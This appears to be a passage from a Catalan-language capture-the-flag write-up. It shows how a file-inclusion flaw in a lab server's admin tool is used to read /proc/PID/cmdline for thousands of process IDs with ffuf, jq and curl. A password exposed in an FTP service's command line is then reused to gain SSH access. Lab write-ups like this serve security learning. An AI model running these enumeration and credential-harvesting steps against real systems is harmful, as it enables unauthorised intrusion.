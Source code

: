 ```bash
seq 1 5000 > pids.txt
```

Utilitzem ffuf per descobrir quins PIDs ens permeten obtenir informació i guardem els resultats en l'arxiu `cmd-ffuf.txt`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=/proc/FUZZ/cmdline" -w pids.txt  -fs 0 -o cmd-ffuf.txt
```

Com que tenim totes les URLs trobades en un XML guardat en el fitxer cmd-ffuf.txt, l'utilitzem per fer una petició a totes les URLs amb informació i guardar-ho en un fitxer amb el següent script d'una línia.

```bash
jq -r '.results[].url' cmd-ffuf.txt | xargs -P4 -I {} sh -c 'echo "\n************* {}"; curl -s "{}" | tr "\0" " "'  > resultados.txt
```

Ara podem observar tots els comandos trobats en el servidor en el fitxer `resultados.txt`.

![resultados.txt](../../../assets/images/zerotrace/resultadostxt.png)

Vam trobar el comandament que inicia el servei `FTP` al port `8000`, on s'exposa la contrasenya utilitzada de l'usuari `J4ckie0x17`.

## Accés inicial amb J4ckie0x17

Amb la contrasenya trobada de `J4ckie0x17` podem accedir al servei FTP al port 8000, però no tenim permisos per pujar arxius en cap de les carpetes, cosa que ens impedeix crear un webshell. Provem la mateixa contrasenya en el servei SSH i efectivament funciona, aconseguint així l'accés inicial al servidor.
